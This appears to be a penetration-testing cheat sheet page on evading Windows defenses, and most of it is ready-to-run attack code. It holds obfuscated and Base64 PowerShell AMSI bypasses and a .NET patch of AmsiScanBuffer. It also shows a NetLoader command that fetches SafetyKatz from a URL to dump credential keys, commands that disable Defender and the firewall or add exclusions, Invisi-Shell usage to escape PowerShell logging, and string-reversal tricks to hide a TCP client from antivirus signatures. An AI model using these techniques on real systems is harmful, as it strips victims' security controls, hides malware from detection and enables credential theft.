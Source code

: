 # Bypass defenses

## AMSI Bypass

### PowerShell AMSI Bypass &#x20;

{% tabs %}
{% tab title="Obfuscated" %}
{% code fullWidth="false" %}
```powershell
S`eT-It`em ( 'V'+'aR' +  'IA' + ('blE:1'+'q2')  + ('uZ'+'x')  ) ( [TYpE](  "{1}{0}"-F'F','rE'  ) )  ;    (    Get-varI`A`BLE  ( ('1Q'+'2U')  +'zX'  )  -VaL  )."A`ss`Embly"."GET`TY`Pe"((  "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em')  ) )."g`etf`iElD"(  ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile')  ),(  "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,'  ))."sE`T`VaLUE"(  ${n`ULl},${t`RuE} )
```
{% endcode %}
{% endtab %}

{% tab title="Base64" %}
<pre class="language-powershell"><code class="lang-powershell"><strong>[Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)
</strong></code></pre>
{% endtab %}
{% endtabs %}

### .NET AMSI Bypass

```powershell
$ZQCUW = @"
using System;
using System.Runtime.InteropServices;
public class ZQCUW {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type $ZQCUW

$BBWHVWQ = [ZQCUW]::LoadLibrary("$([SYstem.Net.wEBUtIlITy]::HTmldecoDE('&#97;&#109;&#115;&#105;&#46;&#100;&#108;&#108;'))")
$XPYMWR = [ZQCUW]::GetProcAddress($BBWHVWQ, "$([systeM.neT.webUtility]::HtMldECoDE('&#65;&#109;&#115;&#105;&#83;&#99;&#97;&#110;&#66;&#117;&#102;&#102;&#101;&#114;'))")
$p = 0
[ZQCUW]::VirtualProtect($XPYMWR, [uint32]5, 0x40, [ref]$p)
$TLML = "0xB8"
$PURX = "0x57"
$YNWL = "0x00"
$RTGX = "0x07"
$XVON = "0x80"
$WRUD = "0xC3"
$KTMJX = [Byte[]] ($TLML,$PURX,$YNWL,$RTGX,+$XVON,+$WRUD)
[System.Runtime.InteropServices.Marshal]::Copy($KTMJX, 0, $XPYMWR, 6)
```

## Loader

use [`NetLoader` ](https://github.com/Flangvik/NetLoader)to unhook ETW and patch AMSI then run executable from URL without saving

```powershell
NetLoader.exe -path http://127.0.0.1:8080/SafetyKatz.exe sekurlsa::ekeys exit
```

## Windows Defender

> **Note:** If Tamper protection is enabled you will not be able to turn off Defender by CMD or PowerShell. You can however, still create an exclusion.

Disable real time monitoring

```powershell
Set-MpPreference -DisableRealtimeMonitoring $true
```

Disable scanning for downloaded files (more silent and preferred)

```powershell
Set-MpPreference -DisableIOAVProtection $true
```

Create an exclusion

```powershell
Add-MpPreference -ExclusionPath "C:\Windows\Temp"
```

## Firewall&#x20;

> **Note:** requires Admin privileges.

Disable using PowerShell

```powershell
Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False
```

Disable manually

<figure><img src="../.gitbook/assets/disable-firewall.png" alt=""><figcaption></figcaption></figure>

## Invisi-Shell

{% embed url="https://github.com/OmerYa/Invisi-Shell" %}

Invisi-Shell bypasses all of PowerShell security features (ScriptBlock logging, Module logging, Transcription, AMSI) by hooking&#x20;

Usage

```powershell
# With admin privileges:
RunWithPathAsAdmin.bat 

# More Silent
# With non-admin privileges:
RunWithRegistryNonAdmin.bat

# Type exit from the new PowerShell session to complete the clean-up.
exit
```

## AV Signatures Bypass

### AMSITrigger

&#x20;identify the part of a script is detected

{% embed url="https://github.com/RythmStick/AMSITrigger" %}
AMSITrigger
{% endembed %}

usage

```powershell
AmsiTrigger_x64.exe -i PowerUp.ps1 
```

Example for scanning

<figure><img src="../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

Example for bypassing&#x20;

<pre class="language-powershell"><code class="lang-powershell"><strong># Reverse the "Net.Sockets" string
</strong><strong>
</strong><strong>$String = "stekcoS.teN"
</strong>$class = ([regex]::Matches($String,'.','RightToLeft') | ForEach {$_.value}) -join ''
if ($Reverse)
{
 $client = New-Object System.$class.TCPClient($IPAddress,$Port)
}
</code></pre>

### DefenderChecker&#x20;

Identify code and strings from a binary / file that Windows Defender may flag

{% embed url="https://github.com/t3hbb/DefenderCheck" %}
DefenderChecker
{% endembed %}

usage

```powershell
DefenderCheck.exe PowerUp.ps1 
```

